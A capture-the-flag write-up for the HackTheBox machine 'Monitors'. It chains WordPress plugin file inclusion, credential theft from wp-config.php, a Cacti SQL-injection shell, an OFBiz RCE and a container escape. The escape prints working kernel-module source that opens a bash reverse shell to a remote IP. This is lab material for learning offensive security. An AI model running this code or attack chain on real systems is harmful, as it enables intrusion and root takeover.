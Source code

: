 # Monitors

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (166) (2).png" alt=""><figcaption></figcaption></figure>

We can add `monitors.htb` to our `/etc/hosts` file.

### Wordpress Site

Port 80 hosts a Wordpress site.

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

We can run `wpscan` to enumerate the plugins and version, and this finds that **wp-with-spritz** is being used.

<figure><img src="../../../.gitbook/assets/image (120) (2).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to RFI.

<figure><img src="../../../.gitbook/assets/image (150) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can confirm this by viewing the `/etc/passwd` file.

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

After further enumeration, there's nothing else that I could find. So we probably need to read more files within this machine. I could not read any user files, so I tried to check some configuration files for the server at `/etc/apache2/sites-enabled/000-default.conf`.

<figure><img src="../../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

We can find a new domain at `cacti-admin.monitors.htb`. Afterwards, I also read the Wordpress configuration files at `/var/www/wordpress/wp-config.php` to find a password.

<figure><img src="../../../.gitbook/assets/image (34) (2).png" alt=""><figcaption></figcaption></figure>

### Cacti&#x20;

Upon visting this separate domain, we are greeted by another login page:

<figure><img src="../../../.gitbook/assets/image (60) (3).png" alt=""><figcaption></figcaption></figure>

This version of Cacti is old and vulnerable to loads of exploits. We can login with the credentials for Wordpress. Afterwards, we can use an exploit that uses SQL injection to gain a reverse shell.

<figure><img src="../../../.gitbook/assets/image (125) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

We now have remote access as the user `marcus` and can capture the user flag.

## Privilege Escalation

### Docker Image

In the user's directory, we find a `note.txt` file that points towards a docker image being present.

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

I read the configuration files at `/etc/containerd`, and found that the `root` user was running the image.

<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

We can check the open ports of this machine via `netstat -tulpn` to see other open ports.

<figure><img src="../../../.gitbook/assets/image (15) (1) (5).png" alt=""><figcaption></figcaption></figure>

Port 8443 was open and we could access it. The next step is port forwarding.

### OfBiz RCE

I used `ssh -L 8443:localhost:8443 marcus@monitors.htb` to port forward after dropping my public key in the `authorized_keys` folder. Then, I used `gobuster` to find hidden directories present:

<figure><img src="../../../.gitbook/assets/image (68) (3).png" alt=""><figcaption></figcaption></figure>

Visting any of these would redirect us to `/content/control/main`, where there is a login page present.

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

The bottom of the page shows that this is running Apache OFBiz Release 17.12.01, which is vulnerable to loads of exploits, including an RCE one.

<figure><img src="../../../.gitbook/assets/image (61) (4).png" alt=""><figcaption></figcaption></figure>

We can follow the PoC here to execute it:

{% embed url="https://github.com/g33xter/CVE-2020-9496" %}

Then, we would gain a shell as root in the container.

<figure><img src="../../../.gitbook/assets/image (157) (4) (1).png" alt=""><figcaption></figcaption></figure>

### Sys Module Exploit

There was nothing much within this machien that was interesting. I decided to check the capabilities of the container and found that `cap_sys_module` was enabled. This allows us to escape the container.

First we need to create a new Kernel module with some C code:

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.3/8888 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Then we need we need to create a `Makefile`:

```
obj-m +=reverse-shell.o

all:
        make -C /lib/modules/4.15.0-generic/build M=/root modules

clean:
        make -C /lib/modules/4.15.0-generic/build M=/root clean
```

Get them both into the root directory and start listening on a port. Afterwards, we can run `make` and `insmod reverse-shell.ko`. This would trigger the reverse shell, and give us a shell as `root`.

<figure><img src="../../../.gitbook/assets/image (32) (5).png" alt=""><figcaption></figcaption></figure>
